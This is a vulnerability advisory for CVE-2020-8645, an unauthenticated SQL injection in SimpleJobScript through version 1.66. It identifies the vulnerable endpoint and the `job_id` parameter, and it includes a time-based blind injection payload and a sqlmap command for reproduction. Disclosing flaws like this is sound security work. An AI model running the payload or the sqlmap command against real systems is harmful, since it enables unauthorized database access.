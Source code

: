 ```yaml
---
cve: "CVE-2020-8645"
title: "Unauthenticated SQL injection in SimpleJobScript"
date: 2020-02-05
tags:
- cve
- sql injection
---
```

An issue was discovered in Simplejobscript.com SJS through 1.66. There is an unauthenticated SQL injection via the job applications search function. The vulnerable parameter is `job_id`. The function is `getJobApplicationsByJobId()`. The file is `_lib/class.JobApplication.php`.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8645
- public announcement: https://github.com/niteosoft/simplejobscript/issues/9

<hr />

**Description:**  
An issue was discovered in Simplejobscript.com SJS through 1.66. There is an unauthenticated SQL injection via the job applications search function. The vulnerable parameter is `job_id`. The function is `getJobApplicationsByJobId()`. The file is `_lib/class.JobApplication.php`.

**Details:**  
File: `/_lib/class.JobApplication.php`  
Function: `getJobApplicationsByJobId()`  
URL: `/get_job_applications_ajax.php`  
Parameter: `job_id`  

**Payload:**  
```
POST /get_job_applications_ajax.php
job_id=493+AND+(SELECT+9069+FROM+(SELECT(SLEEP(5)))Ufmy)
```

**Steps to Reproduce:**  
```
$ sqlmap --batch --threads=10 --dbms=mysql -u "http://local.simplejobscript.net/get_job_applications_ajax.php" --data="job_id=493" --banner
```

**PoC:**  
![cve-2020-8645 SimpleJobScript sqli](/images/cve-2020-8645.png)
